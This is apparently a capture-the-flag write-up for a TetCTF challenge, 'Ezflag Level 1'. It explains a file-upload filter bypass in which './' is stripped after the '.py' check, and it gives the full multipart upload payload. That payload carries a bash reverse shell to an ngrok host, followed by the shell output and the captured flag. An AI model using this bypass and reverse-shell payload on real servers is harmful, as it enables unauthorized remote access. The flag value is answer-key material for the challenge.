 # Ezflag Level 1

This was a file upload vulnerability. Looking inside the `lighttpd.conf` file, we could see that any `.py` files are run with `/usr/bin/python3`.

```
alias.url += ( "/cgi-bin" => "/var/www/cgi-bin" )
alias.url += ( "/uploads" => "/var/www/upload" )
cgi.assign = ( ".py" => "/usr/bin/python3" )
```

Validation is performed to check for the `.py` extension.

```python
def valid_file_name(name) -> bool:
    if len(name) == 0 or name[0] == '/':
        return False
    if '..' in name:
        return False
    if '.py' in name:
        return False
    return True
```

However, once validated, a replacement of `./` with an empty string is performed.

```python
normalized_name = item.filename.strip().replace('./', '')
```

Thus, we can bypass the `.py` filter by using `./py`.

```http
Content-Disposition: form-data; name="file"; filename="socengexp.p./y"
Content-Type: text/x-python-script

import os

os.system('bash -c "bash -i >& /dev/tcp/2.tcp.ngrok.io/15273 0>&1"')
```

This allows us to get a reverse shell.

```
www-data@48b6db5957ed:/$ cat flag
cat flag
TetCTF{65e95f4eacc1fe7010616e051f1c610a}
```
